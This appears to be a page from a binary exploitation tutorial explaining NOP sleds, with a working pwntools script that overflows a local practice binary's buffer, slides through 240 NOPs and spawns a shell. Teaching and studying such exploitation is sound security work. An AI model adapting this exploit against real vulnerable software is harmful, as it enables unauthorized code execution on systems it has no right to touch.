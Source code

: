 ```yaml
---
description: We can use NOPs for more reliable shellcode exploits
---
```


# NOPs

NOP \(no operation\) instructions do exactly what they sound like: _nothing_. Which makes then very useful for shellcode exploits, because all they will do is run the next instruction. If we pad our exploits on the left with NOPs and point EIP at the middle of them, it'll simply keep doing no instructions until it reaches our actual shellcode. This allows us a greater margin of error as a shift of a few bytes forward or backwards won't really affect it, it'll just run a different number of NOP instructions - which have the same end result of running the shellcode. This padding with NOPs is often called a NOP slide or NOP sled, since the EIP is essentially sliding down them.

In intel x86 assembly, NOP instructions are `\x90`.

{% hint style="info" %}
The NOP instruction actually used to stand for `XCHG EAX, EAX`, which does effectively nothing. You can read a bit more about it [on this StackOverflow question](https://stackoverflow.com/questions/25008772/whats-the-difference-between-the-x86-nop-and-fnop-instructions/25053039).
{% endhint %}

### Updating our Shellcode Exploit

We can make slight changes to our exploit to do two things:

* Add a large number of NOPs on the left
* Adjust our return pointer to point at the middle of the NOPs rather than the buffer start

{% hint style="warning" %}
Make sure ASLR is still disabled. If you have to disable it again, you may have to readjust your previous exploit as the buffer location my be different.
{% endhint %}

```python
from pwn import *

context.binary = ELF('./vuln')

p = process()

payload = b'\x90' * 240                 # The NOPs
payload += asm(shellcraft.sh())         # The shellcode
payload = payload.ljust(312, b'A')      # Padding
payload += p32(0xffffcfb4 + 120)        # Address of the buffer + half nop length

log.info(p.clean())

p.sendline(payload)

p.interactive()
```

{% hint style="warning" %}
It's probably worth mentioning that shellcode with NOPs is not failsafe; if you receive unexpected errors padding with NOPs but the shellcode worked before, try reducing the length of the nopsled as it may be tampering with other things on the stack
{% endhint %}

Note that NOPs are only `\x90` in certain architectures, and if you need others you can use pwntools:

```python
nop = asm(shellcraft.nop())
```

